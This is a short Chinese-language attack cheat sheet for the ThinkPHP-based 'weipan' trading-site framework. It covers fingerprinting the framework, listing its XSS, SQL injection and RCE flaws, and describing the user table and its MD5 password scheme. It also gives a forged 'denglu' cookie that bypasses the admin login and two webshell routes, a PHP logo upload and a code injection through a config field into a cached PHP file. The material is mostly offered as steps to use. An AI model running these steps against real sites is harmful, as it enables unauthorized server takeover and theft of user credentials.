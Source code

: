 # weipan

---

微盘框架特征：

```
网站标题的图标默认是绿色的微字（也可以在浏览器历史记录中查看）
用户在前端登陆后访问的是伪静态页面，如good/pid/2/token/xxxxxxx.html
```

RCE：

```
1.用户注册填信息的地方存在xss
2.商品行情页面good/pid/2 存在sql注入
3.以thinkphp框架二次开发的框架，存在thinkphp的RCE
4.thinkphp的日志泄露，搜索error可能找到sql注入的地方
5.其他漏洞：https://www.cnblogs.com/-qing-/p/10693139.html
```

基本信息

```
数据库名
|-wp_userinfo  #用户表，管理员和用户信息存放的表
|--username用户名
|--upwd 密码md5
|--utime 注册时间戳，默认upwd是密码+utime的md5（具体需要看后台登陆页面是怎么校验登陆的）

```

后台登陆绕过登陆

- 教程：https://www.freebuf.com/articles/web/254396.html

- 将cookie中denglu参数改成（otype是权限，token是验证）

```
denglu=think:{"otype":"3","userid":"","username":"","token":"3c341b110c44ad9e7da4160e4f865b63"}
```

后台get5he11 -1

- 教程：https://www.freebuf.com/articles/web/254396.html

```
/参数设置/基本设置/LOGO/选择文件/
通过源代码查看logo处可以看到路径，一般在public/uploads/20210101/md5.php
```

后台get5he11 -2

- 教程：https://forum.90sec.com/t/topic/988

```
/参数设置/添加配置/依次输入test、test、test、文本、参数配置
/参数设置/参数设置/在test拦中输入 ：
 "
phpinfo();//
访问前端页面进行缓存刷新后直接访问：
/runtime/cache/3a/8e4c06e471595f6eb262bb9b5582d9.php

PS：如果没有参数设置，可能只是删除了导航，没有删除实际功能
可以直接访问/setup/addsetup.html  添加配置
```

